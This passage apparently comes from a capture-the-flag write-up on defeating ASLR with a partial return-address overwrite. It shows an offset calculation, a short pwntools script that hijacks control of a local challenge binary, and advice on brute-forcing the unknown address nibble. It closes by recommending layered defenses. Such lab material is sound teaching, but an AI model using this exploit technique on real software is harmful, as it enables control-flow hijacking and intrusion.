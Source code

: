 We can see the RIP is stored at `0x7fffffffdd78`.

After getting both the address we can simply do the following to identify the gap between our buffer and the retrun address -

```
python3 -c "print(0x7fffffffdd78-0x7fffffffdd61)"
```

Output :

```
23
```

So we need to write 23 Bytes to reach the RIP. 

Now we can easily write an exploit for this binary to hijack the control :

```
#!/bin/python3


from pwn import *

p = process("./chall")
#gdb.attach(p)
p.send(b'\x00'*23+b'\x89'+b'\x41')

print(p.recvall())
```

One important thing to note there - In python we can't write nibble we can write bytes only which means we can't write `189` we can write something like `0189` or `3189` so you need to choose a random value for the 4th hexdigit and run the binary multiple times until it matches the actual value.

<img width="1898" height="203" alt="7874bcb494061b68ae1e30be068ec0d0" src="https://github.com/user-attachments/assets/2edac304-084d-4d1d-956d-771343f088ae" />
Figure 1.8 : Flag

We got the flag!!

In our example all three  functions - `main` and `flag` were in the same page and the 4th hex digit did not caused any big issue while control hijacking but what if the 5th hex digit of the target function is different then the 5th hex digit of the challenge then the brute force would so much longer time beacuse then the value will be between 0-255. This happens when the program is so large that it uses multiple pages and function we are exploiting and the function where we want the RIP to point are in different pages - If more the pages is under 16 pages away 4th hex digit will be changed if 16-256 pages away  5th and 4th hex digit will change.

### Conclusion 

ASLR raises the bar but isn’t a silver bullet — by understanding pages and relative offsets you can still hijack control in many practical cases (especially when targets live in the same mapping). In short: ASLR helps, but layered defenses (canaries, NX/DEP, RELRO, code hygiene) are needed to make exploitation truly hard.


